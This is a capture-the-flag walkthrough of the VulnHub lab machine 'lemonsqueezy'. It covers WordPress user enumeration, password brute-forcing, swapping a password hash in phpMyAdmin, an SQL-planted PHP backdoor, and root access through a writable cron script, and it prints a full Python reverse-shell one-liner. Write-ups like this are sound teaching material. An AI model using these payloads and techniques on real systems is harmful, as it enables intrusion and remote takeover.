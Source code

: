 # GETTING STARTED

To download **lemonsqueezy** click on the link given below

https://www.vulnhub.com/entry/lemonsqueezy-1,473/

> [!NOTE] 
> This writeup documents the steps that successfully led to pwnage of the machine. It does not include the dead-end steps encountered during the process (which were numerous). This is just my take on pwning the machine and you are welcome to choose a different path.


# RECONNAISSANCE

I performed an **nmap** aggressive scan on the target to find information about open ports and running services.

![](IMAGES/1.png)

# INITIAL ACCESS

Since the target was running a web server, I accessed it using a browser and found a default landing page.

![](IMAGES/2.png)

I performed a fuzz scan using **dirb** to find other files and directories on the server.

![](IMAGES/3.png)

![](IMAGES/4.png)

Hence, I found two interesting directories, **wordpress** and **phpmyadmin**.

I visited the *wordpress* page and, upon scrolling to the bottom, found a link that took me to a login page.

![](IMAGES/5.png)

![](IMAGES/6.png)

![](IMAGES/7.png)

Hence, I used **wpscan** to find users on the WordPress website.

![](IMAGES/8.png)

![](IMAGES/9.png)

I found two users, so I tried logging in as them on the login panel using *password* as the password.

![](IMAGES/10.png)

I received an error indicating that I had provided an incorrect password. So, I used **hydra** to find the correct password for the user.

![](IMAGES/11.png)

Hence, I logged into the WordPress site using these credentials.

![](IMAGES/12.png)

I looked around and found something interesting in the *Posts* tab.

![](IMAGES/13.png)

This could be a password, so I tried using it on the *phpmyadmin* page.

![](IMAGES/14.png)

![](IMAGES/15.png)

Hence, I gained access to the page containing the database information. I inspected the *wordpress* database and found the *wp_users* table that contained the password hash of both the users.

![](IMAGES/16.png)

Here, I replaced the hash of *lemon* with *orange* so that I could access that user's WordPress panel with a password that I knew.

![](IMAGES/17.png)

I logged into the WordPress site as *lemon* and found some more tabs.

![](IMAGES/18.png)

I tried to upload a **php** reverse shell at *Appearance --> Editor --> 404 template* but did not have enough permissions.

Hence, I went back to the *phpmyadmin* page and found a tab that allowed me to execute an **SQL** query.

![](IMAGES/19.png)

I created a **php** backdoor using SQL by executing the following query

![](IMAGES/20.png)

![](IMAGES/21.png)

I visited the WordPress site and attempted to execute a command using this backdoor.

![](IMAGES/22.png)

Since it worked, I attempted to get a reverse shell out of it.
- I visited **revshell.com** and copied an **nc** reverse shell payload.
- I started a **netcat** listener and pasted the payload into the browser.

![](IMAGES/23.png)

![](IMAGES/24.png)

![](IMAGES/25.png)

Next, I spawned a tty shell using Python.

![](IMAGES/26.png)

I looked around in the directories and found the user flag.

![](IMAGES/27.png)

# PRIVILEGE ESCALATION

Now I moved into the */var/www/html/wordpress* directory and downloaded the **linux smart enumeration** script.

![](IMAGES/28.png)

![](IMAGES/29.png)

I then ran the script.

![](IMAGES/30.png)

The script identified an interesting file that was executed by the crontab as root and had modification permissions for all users.

![](IMAGES/31.png)

![](IMAGES/32.png)

Hence, the next thing I did was navigate to the folder and view the file.

![](IMAGES/33.png)

I then used the following **python** reverse shell payload.

```python

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.7",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

I added this payload into the file and started a **nc** listener.

![](IMAGES/34.png)

I viewed the modified Python file.

![](IMAGES/35.png)

Finally, I checked my listener and quickly got a reverse shell.

![](IMAGES/36.png)

Now with root access, I captured the root flag from the */root* directory.

![](IMAGES/37.png)

# CLOSURE

Here's a brief summary of how I compromised **lemonsqueezy** and captured both flags:
- I discovered 2 login panels, */wordpress/wp-login.php* and */phpmyadmin*, by fuzzing directories of the web server.
- Using **wpscan**, I identified available users.
- I found the password for *orange* and logged into the WordPress site using those credentials.
- I obtained the password for *orange*'s *phpmyadmin* page.
- Using this, I logged into *phpmyadmin* and created a backdoor using an **SQL** query.
- I leveraged the backdoor to establish a foothold and captured the user flag by navigating up a few directories.
- I discovered a file executed as root through **cron jobs** with modification permissions.
- I uploaded my own **Python** reverse shell code into it and obtained a reverse shell as **root**
- Finally, I captured the second flag from the */root* directory.

![](IMAGES/x.png)

That concludes my writeup. Until next time!

---